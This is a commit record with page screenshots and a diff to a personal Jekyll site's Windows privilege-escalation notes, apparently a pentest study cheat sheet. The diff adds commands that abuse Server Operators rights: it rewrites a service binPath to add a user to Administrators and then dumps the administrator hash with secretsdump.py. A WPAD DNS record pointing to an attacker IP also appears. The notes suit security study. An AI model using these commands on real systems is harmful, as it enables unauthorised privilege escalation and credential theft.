

Before and after one commit to 0xabsec/0xabsec.github.io, a Jekyll site: the page built from pages/windowsPriv.md, in a window 1280 px wide and 1400 px high, scrolled down 8418 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 8930 px from its top, so only the background shows below that.

Commit message:
initial commit

`````diff
--- a/pages/windowsPriv.md
+++ b/pages/windowsPriv.md
@@ -389,6 +389,48 @@ C:\> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.AD.loca
 
 ##### Adding a WPAD Record
 
-````
-C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName AD.local -ComputerName dc01.AD.local -IPv4Address 10.10.14.3
 ```
+C:\> Add-DnsServerResourceRecordA -Name wpad -ZoneName AD.local -ComputerName dc01.AD.local -IPv4Address 10.10.14.3
+```
+
+### Server Operators
+
+The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.
+
+Membership of this group confers the powerful **SeBackupPrivilege** and **SeRestorePrivilege** privileges and the ability to control local services
+
+#### Querying the Service
+
+```
+C:\> sc qc <service name>
+```
+
+#### Checking Service Permissions with PsService
+
+We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), which is part of the Sysinternals suite, to check permissions on the service.
+
+```
+C:\> c:\Tools\PsService.exe security <Service name>
+```
+ **SERVICE_ALL_ACCESS** access right  gives us full control over the service.
+
+#### Modifying the Service Binary Path and Starting the Service
+
+```
+C:\> sc config <service name> binPath= "cmd /c net localgroup Administrators <user> /add"
+C:\> sc start <service Name>
+```
+
+#### Confirming Local Admin Group Membership
+
+```
+C:\> net localgroup Administrators
+```
+
+### Dumping Admin hash
+
+Once we Are member of Admin Group We can dump hashes of admin
+
+```
+attacker@ubuntu[/]$  secretsdump.py <user>@<ip> -just-dc-user administrator
+```
`````
